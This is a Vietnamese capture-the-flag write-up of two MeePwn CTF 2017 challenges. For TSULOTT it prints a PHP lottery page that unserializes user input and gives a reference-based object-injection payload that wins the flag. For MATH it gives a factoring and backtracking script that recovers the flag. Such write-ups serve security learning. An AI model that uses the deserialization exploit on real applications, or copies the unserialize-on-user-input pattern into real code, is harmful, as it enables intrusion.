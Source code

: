 ```yaml
---
layout: post
title:  "Meepwn CTF 2017 - Quick TSULOTT and |\\/|/-\\T|-| writeup"
date: 2017-07-27 11:08:19 +0700
categories: ctf
---
```


# TSULOTT

```
Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!! Remote: 128.199.190.23:8001
```

Truy cập vào trang, ta thấy một trang web xổ số, tìm ra 6 cặp số đúng đẻ trúng cả tỉ đồng.

View source thấy có comment: `is_debug=1`, thử thêm tham số này ta nhận được source-code như sau:

```php
<body>
<style>
input[type=text] {
    width: 40%;
    padding: 12px 20px;
    margin: 8px 0;
    box-sizing: border-box;
    border: 2px solid red;
    background-color: #ebfff8;
    border-radius: 4px;
}
button[type=submit] {
    width: 10%;
    background-color: #F94848;
    color: white;
    padding: 14px 20px;
    margin: 8px 0;
    border: none;
    border-radius: 4px;
    cursor: pointer;
}
button[type=submit]:hover {
    background-color: #45a049;
}
body {
    background-image: url("money.jpg");
}
</style>
<?php
class Object
{
  var $jackpot;
  var $enter;
}
?>
<?php
include('secret.php');
if(isset($_GET['input']))  
{
  $obj = unserialize(base64_decode($_GET['input']));
  if($obj)
  {
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);
    if($obj->enter === $obj->jackpot)
    {
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>";
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>";
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>";
    }
    else
    {
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>";
    }
  }
  else
  {
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>";
  }
}
else
{
  echo "";
}
?>
<center>
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2>
<p><p><font color='white'>Input your code to win jackpot!</font><p>
<form>
          <input type="text" name="input" /><p><p>
          <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if (isset($_GET['gen_code']) && !empty($_GET['gen_code']))
{
  $temp = new Object;
  $temp->enter=$_GET['gen_code'];
  $code=base64_encode(serialize($temp));
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>';
}
?>
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1')
{
   show_source(__FILE__);
}
?>
<!-- GET is_debug=1 -->
```

Nhiệm vụ là tạo ra 1 input sau khi được decode base64 và unserialize có thuộc tính `enter` và `jackpot` giống nhau là ok.
Vì ta có thể control toàn bộ object truyền vào nên điều đầu tiên nghĩ đến là tạo object mà enter sẽ reference đến jackpot, như vậy giá trị luôn bằng nhau:

```php
class Object
{
  var $jackpot;
  var $enter;

  function __construct() {
       $this->enter = &$this->jackpot;
   }
}
$input = new Object();
echo base64_encode(serialize($input));
```
submit ta có flag: `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`

Cách khác ?: tạo object ko có cả `enter` lẫn `jackpot`, khi đó cả 2 đều null -> pass ?


# MATH

```
I hack your brain!

hack.py
```

```python
from Crypto.Util.number import *
from hashlib import md5

flag = "XXX"
assert len(flag) == 14
pad = bytes_to_long(md5(flag).digest())

hack = 0

for char in flag:
	hack+= pad
	hack*= ord(char)

print hack
#hack = 64364485357060434848865708402537097493512746702748009007197338675
#flag_to_submit = "MeePwnCTF{" + flag + "}"
```

Nhận xét:

- `hack = pad * last_char * (1 + ...)`
- hack có thể factor được bằng factordb.com
- pad sẽ nằm trong khoảng từ min_md5 đến max_md5 và là tích của các factor của hack.

Ta sẽ brute force giá trị của hack, với mỗi giá trị đó sẽ tính được tiếp `last_char` (last_char có giá trị trong khoảng từ 32 đến 128 (printable)) cứ như vậy cho đến char đầu tiên.

Source code:

```python
# -*- coding=utf-8 -*-

from Crypto.Util.number import *
from hashlib import md5
from itertools import combinations

len_flag = 14
hack = 64364485357060434848865708402537097493512746702748009007197338675
#flag_to_submit = "MeePwnCTF{" + flag + "}"
"""
3^2 · 5^2 · 7 · 107 · 487 · 607 · 28429 · 29287 · 420577267963<12> · 3680317203978923<16> · 1002528655290265069<19>
"""
raw_input()

def get_all_candidate(hack):
    # print hack
    return [chr(i) for i in range(32, 129) if hack % i == 0]

def backtrack(i, h, p, ans, deep):
    # print "="*deep, i, h, ans
    if h < 0:
        return False
    if len(ans) > len_flag:
        return False
    if h / ord(i) == p and p == bytes_to_long(md5(ans[::-1]).digest()):
        print ans[::-1]
        raw_input()
        return True
    candidate = get_all_candidate(h/ord(i) - p)
    # print "="*deep, candidate
    if not candidate:
        return False
    else:
        done = False
        for j in candidate:
            if not backtrack(j, h/ord(i) - p, p, ans + j, deep + 1):
                # print "="*deep, "Failed", j
                pass
            else:
                done = True

        return done

cs = [3, 3, 5, 5, 7, 107, 487, 607, 28429, 29287, 420577267963, 3680317203978923, 1002528655290265069]
for r in range(1, 14):
    for factors in combinations(cs, r):
        pad = 1
        for f in factors:
            pad *= f
        if pad > 340282366920938457608348813069405954094 or pad < 3922569271515906540887:
            continue
        print factors

        for k in get_all_candidate(hack):
            print "------------->"
            backtrack(k, hack, pad, k, 1)
            # raw_input()
```

Chạyy 1 lúc thì ra pad là tích của 6 factor và flag là `d0y0ul1keM@TH?`

Submit: `MeePwnCTF{d0y0ul1keM@TH?}`
